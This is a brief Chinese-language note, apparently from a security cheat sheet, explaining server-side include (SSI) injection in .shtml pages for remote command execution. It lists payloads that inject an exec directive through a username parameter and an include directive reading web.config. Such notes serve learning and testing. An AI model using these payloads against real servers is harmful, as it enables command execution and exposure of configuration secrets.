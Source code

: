 shtml是一种特殊的html。需要运行在支持SSI的服务器，如apache。简单来说就是能根据命令动态回显网页的某个部分，比如时间。
可以注入，用来远程命令执行。 格式：  
```
?username=<!--#exec cmd="命令"-->

?username=<!--#exec cmd="ls"-->

ssi:<--#include file="..\..\web.config" -->
```